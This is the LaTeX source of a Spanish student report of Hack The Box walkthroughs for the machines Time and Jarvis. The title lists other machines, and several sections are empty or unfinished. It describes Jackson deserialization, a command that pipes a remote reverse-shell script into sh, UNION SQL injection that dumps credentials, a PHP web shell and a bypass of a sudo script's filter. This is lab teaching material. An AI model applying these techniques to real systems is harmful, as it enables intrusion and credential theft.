\documentclass{article}
\usepackage[a4paper]{geometry}
\usepackage[spanish]{babel}
\usepackage{parskip}
\usepackage{setspace}
\usepackage{graphicx}
\usepackage{fancyhdr}
\geometry{total={6in, 9in}}
\usepackage{makeidx}
\usepackage{lscape}
\usepackage{pdflscape}
\usepackage{fancyhdr}
\usepackage{pdfpages}
\usepackage{rotating}
\usepackage{etoolbox}
\usepackage{listings}
\usepackage{float}
\usepackage{caption}
\usepackage{subcaption}

\lstdefinestyle{customc}{
  language=C++,
  showstringspaces=false,
  basicstyle=\footnotesize\ttfamily,
  keywordstyle=\bfseries\color{green!40!black},
  commentstyle=\itshape\color{purple!40!black},
  identifierstyle=\color{blue},
  stringstyle=\color{orange},
}

\lstset{escapechar=@,style=customc}

\newcommand{\tabitem}{%
  	\usebeamertemplate{itemize item}\hspace*{\labelsep}}
\usepackage[hidelinks]{hyperref}

%HEADRULE

\pagestyle{fancy}
\setlength{\headheight}{30.2pt}
\setlength{\headsep}{30pt}
% INICIO DE PÁGINAS
\begin{document}
\begin{titlepage}
	
	
	\begin{center}
		{\LARGE \textbf{UNIVERSIDAD NACIONAL DE INGENIERÍA}}\\
		\vspace{5 mm}
		{\large \textbf{Facultad de Ingeniería Industrial y de Sistemas}}\\
		\vspace{15.5 mm}
		\begin{figure}[h]
			\centering 
			
\includegraphics[width=0.45\textwidth]{images/CiberSecFIIS.png}
		\end{figure}
		\vspace{4 mm}	
		{\Large \textbf{Informes de exploración de vulnerabilidades en HTB} }\\
		\vspace{5 mm}
		
		\onehalfspacing  % Espaciamiento 1.5
		{\Large \textbf{``{\@De las máquinas: OpenAdmin, Fuse \\Magic, Remote }''} }\\
		
		\singlespacing  % Fin del espaciamiento 1.5
		
		\vspace{4 mm}	

		\vspace{20 mm}
		{\large \textbf{ELABORADO POR:} }\\
		\vspace{10 mm}
		\begin{center}
			\begin{minipage}{0.7\textwidth}
			  \begin{itemize}
				\item \Large Alfonso Suárez, Luis
				\item \Large Mottoccanche Tantaruna, Joseph
				\item \Large Chi Jon, Lau
			  \end{itemize}
			\end{minipage}
		  \end{center}

		\vspace{5 mm}	
	\end{center}

\end{titlepage}


\clearpage
\tableofcontents
\clearpage
% ----------------------------Time-----------------------------------
\section{Time}
\subsection{Enumeración}
Lo primero a realizar en cualquier máquina es un escaneo rápido con nmap, para esto usamos el comando con los parámetros:
\begin{itemize}
	\item -p-
	\item --min-rate=5000
	\item -v
	\item -oN puertos
\end{itemize}
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/time/nmap.png}
	\caption{escaneo con nmap}
\end{figure}
Entonces encontramos estos dos servicios, algo que podríamos hacer para verificar la versión de los servicios es incluir el -sV.
La razón por la cual no usamos esto desde el inicio es porque al analizar todos los puertos en algunos casos hace que se demore considerablemente más, en especial cuando descubre muchos puertos.
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/time/nmap_version.png}
	\caption{escaneo con version nmap}
\end{figure}
Un parámetro adicional que podríamos usar para este análisis es el :
\begin{itemize}
	\item -sV 
	\item -Pn 
	\item --script=Vuln
\end{itemize}
\clearpage
Analizamos ahora los directorios para ver si encontramos algo con gobuster, esto podría ayudarnos a encontrar alguna carpeta oculta antes de revisar el contenido, para esto usamos un parámetro importante que es el -t 200 que ayuda a que use más hilos. 
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/time/gobuster.png}
	\caption{fuzzeo con gobuster}
\end{figure}
Mientras tanto analizamos también la página web que tenemos en el puerto 80, nos encontramos con un validador de json como los que solemos encontrar en internet.
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/time/index.png}
	\caption{página de json}
\end{figure}
\clearpage
Entonces tenemos este validador, probamos metiendo un poco de código json, obtenemos este código de \href{https://json.org/example.html}{https://json.org/example.html}.
Seleccionamos dos códigos para hacer la prueba porque ambos botaban errores diferentes:
\begin{lstlisting}[language={[ANSI]C}]  
	{"title": "Sample Konfabulator Widget",
    	"name": "main_window",
    	"width": 500,
    	"height": 500}
\end{lstlisting}
Con este código te bota el siguiente error:
\begin{lstlisting}[language={[ANSI]C}] 
	Validation failed:    "title": "Sample Konfabulator Widget",
\end{lstlisting}

Luego probamos con este código de una línea a ver si había diferencia
\begin{lstlisting}[language={[ANSI]C}]  
	{"value": "New", "onclick": "CreateNewDoc()"}
\end{lstlisting}

Con este código te bota el siguiente error:
\begin{lstlisting}[language={[ANSI]C}]  
	Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.
	exc.MismatchedInputException: Unexpected token (START_OBJECT), 
	expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type 
	information for class java.lang.Object
\end{lstlisting}

Entonces el segundo error nos da algo más significativo, buscando en google encontramos algunas vulnerabilidades.

Entre estas la que nos sirve es la que encontramos en este github \href{https://github.com/jas502n/CVE-2019-12384}{https://github.com/jas502n/CVE-2019-12384}

\subsection{Explotación}
Comenzando con la explotación, esta máquina utiliza un error de deserialización, el cual se explota con un gadget, en este caso lo que se tiene que hacer son los siguientes pasos: 
\begin{enumerate}
	\item Crear un inject.sql y modificarlo para que ejecute una reverse shell que queramos.
	\item Crear la reverse shell que puede ser un archivo o escrita directamente.
	\item Levantar estos archivos con un servidor para que sea accesible desde la máquina víctima.
	\item Deja escuchando el puerto de la reverse shell.
	\item escribir el exploit en la página para que se ejecute y nos de acceso.
\end{enumerate} 

Entonces empezamos con los pasos, primero para crear el inject.sql usamos el github que nos da el archivo, solo quedaría modificarlo con la ruta en la que tendríamos la reverse shell 

\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/time/injection.png}
	\caption{script de injection sql modificado}
\end{figure}

Luego para crear la reverse shell, podemos hacerlo de la forma habitual con monkey pentester, en este caso sabemos que lo va a ejecutar bash porque estamos en un server linux y esta función sql está llamando una shell de sistema, así que podríamos usar la reverse de bash, sin embargo para este caso usaremos un script que te genera varias reverse shell y te usa la más conveniente.

El proceso para generarla es simple, solo te diriges a "https://resh.now.sh/\textbf{yourip}:1337 | sh", es importante este 1337 que sería el puerto que tendríamos que tener en escucha con el nc.
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/time/reverse_shell.png}
	\caption{reverse shell}
\end{figure}

Luego tenemos que levantar un servidor en python para que pueda escuchar las peticiones de los archivos que necesitamos, en este la revershe shell y el injection.sql, el comando para esto es "python3 -m http.server \textbf{puerto a usar}", para este caso usaremos el 80 que se habilita con permisos de administrador, pero no es necesario puede ser cualquiera.

\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/time/server.png}
	\caption{servidor en python3}
\end{figure}

Levantamos en escucha un netcat en el puero 1337, y ejecutamos en la página el código malicioso que obtuvimos del github y hemos modificado.

Hay que tener un poco de cuidado porque en el github escapan todas las comillas simples "", para esto simplemente quitas las barras invertidas.
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/time/comando.png}
	\caption{Inyección de comando}
\end{figure}
\begin{figure}[H]
	\center
	
\includegraphics[width=0.7\textwidth]{images/time/ejecucion.png}
	\caption{Ejecución en el servidor}
\end{figure}
Con esto regresando al netcat podemos ver que ya tenemos acceso a la máquina, sin embargo estamos con un usuario poco privilegiado.
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/time/acceso.png}
	\caption{Obteniendo acceso}
\end{figure}


\subsection{Escalamiento de privilegios}

Ya dentro del usuario lo que tenemos que hacer es ver cuantos privilegios tenemos. Esto podemos hacerlo con un 

\subsection{Post Explotación}

\subsection{Hardening}

% ----------------------------Jarvis-----------------------------------
\clearpage 
\section{Jarvis}
\subsection{Enumeración}
Realizando el escaneo de puertos abiertos encontramos el servicio HTTP en el puerto 80 y SSH, en el puerto 22. El sistema operativo de la máquina observamos que es Linux.
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/jarvis/1.png}
	\caption{Escaneo de puertos}
\end{figure}

Accediendo a la página web, a simple inspección no observamos nada interesante excepto cuando se accede a la información de los rooms o cuartos, el cual en el URL se observa el parámetro cod indicando una posible inyección SQL.
\begin{figure}[H]
	\center
	
\includegraphics[width=0.8\textwidth]{images/jarvis/2.png}
	\caption{Página principal}
\end{figure}
\begin{figure}[H]
	\center
	
\includegraphics[width=0.5\textwidth]{images/jarvis/3.png}
	\caption{Rooms}
\end{figure}

Luego hacemos un escaneo de los directorios para encontrar nuevas rutas mediante Gobuster.
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/jarvis/4.png}
	\caption{Resultados del gobuster}
\end{figure}

Esto nos devuelve que hay una carpeta de phpmyadmin, accediendo observamos que es el servicio phpMyAdmin, el cual es una herramienta de administración para MySQL y MariaDB. Sospechamos que puede ser de la misma base de datos que tiene la información de los rooms. Pero para accederlo necesitamos credenciales que no tenemos, por lo tanto, trataremos de obtenerlos mediante la posible vulnerabilidad SQLi.
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/jarvis/5.png}
	\caption{phpMyAdmin}
\end{figure}

\subsection{Explotación}
Para el SQLi podemos utilizar sqlmap o de forma manual, de forma manual haremos ataques mediante UNION para determinar la cantidad de columnas del resultado del query y mediante esto explorar los database que contiene, luego a tablas y finalmente a las filas y columnas.
Descubrimos que tiene 7 columnas, para saber qué DBMS (Database Management Systems) es reemplazamos el valor de una columna donde la información es visible en la página web por @@version y nos devuelve que el DBMS es MariaDB, el cual es similar al MySQL.  Y luego para obtener las credenciales del usuario reemplazando en las columnas 4 y 5 se obtuvo la información de las columnas user y password de la tabla user del database mysql.
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/jarvis/6.png}
	\caption{SQLi mediante UNION para recuperar las credenciales}
\end{figure}
\begin{figure}[H]
	\center
	
\includegraphics[width=0.5\textwidth]{images/jarvis/7.png}
	\caption{Resultados del SQLi}
\end{figure}

La contraseña nos aparece hasheada pero podemos crackearlo con crackstation y nos devuelve que es imissyou.
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/jarvis/8.png}
	\caption{Crackeo de la contraseña hasheada}
\end{figure}

Esto nos podría servir para acceder al phpMyAdmin y buscar vulnerabilidades ahí, pero podemos insertar una reverse shell simple en php que nos permite ejecutar código remoto directamente mediante la vulnerabilidad de SQLi.
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/jarvis/9.png}
	\caption{Inserción de una web shell - parte 1}
\end{figure}
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/jarvis/10.png}
	\caption{Inserción de una web shell - parte 2}
\end{figure}

En este caso lo guardamos en la ruta /var/www/html/prueba.php, y lo único que debemos hacer es ingresar los valores del comando que deseamos ejecutar a la variable cmd, en este caso utilizaremos netcat para lograr una reverse Shell en nuestra máquina.
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/jarvis/11.png}
	\caption{Obtención de reverse shell mediante la web shell insertada}
\end{figure}

Pero primero debemos levantar el netcat en nuestra máquina en el mismo puerto que vamos a hacer el reverse Shell.
\begin{figure}[H]
	\center
	
\includegraphics[width=0.8\textwidth]{images/jarvis/12.png}
	\caption{Acceso obtenido como www-data}
\end{figure}

Y listo, tenemos acceso a la máquina como usuario www-data pero este usuario del servidor web es limitado ya que no puede acceder a los datos de los demás usuarios y mucho menos root. Observamos que en la máquina se encuentra el usuario pepper.

Mediante el comando sudo -l, podemos ver que nos permite ejecutar un script como usuario pepper e inspeccionando el archivo observamos que ejecuta el comando ping cuando lo ejecutamos con la opción -p. Esto nos podría permitir ejecutar el código que anteriormente utilizamos para obtener la reverse Shell pero realiza un checkeo para que no contenga ciertos caracteres especiales. 
\begin{figure}[H]
	\center
	
\includegraphics[width=0.8\textwidth]{images/jarvis/13.png}
	\caption{Parte del script simpler.py}
\end{figure}

Esto puede ser fácilmente hacer bypass, ya que podríamos poner ese comando en un archivo Bash y darle como de entrada el archivo.
\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/jarvis/14.png}
	\caption{Creación del archivo bash para bypassear la revisión}
\end{figure}\begin{figure}[H]
	\center
	
\includegraphics[width=\textwidth]{images/jarvis/15.png}
	\caption{Ejecución del script bash mediante el script python simpler}
\end{figure}

Levantamos el netcat en modo escucha como lo hicimos anteriormente, pero en un puerto diferente ya que el otro está en uso.
\begin{figure}[H]
	\center
	
\includegraphics[width=0.8\textwidth]{images/jarvis/16.png}
	\caption{Obtención del acceso como pepper}
\end{figure}

Y listo, tenemos acceso como el usuario pepper.
\begin{figure}[H]
	\center
	
\includegraphics[width=0.6\textwidth]{images/jarvis/17.png}
	\caption{Flag del user.txt}
\end{figure}

\subsection{Escalamiento de privilegios}
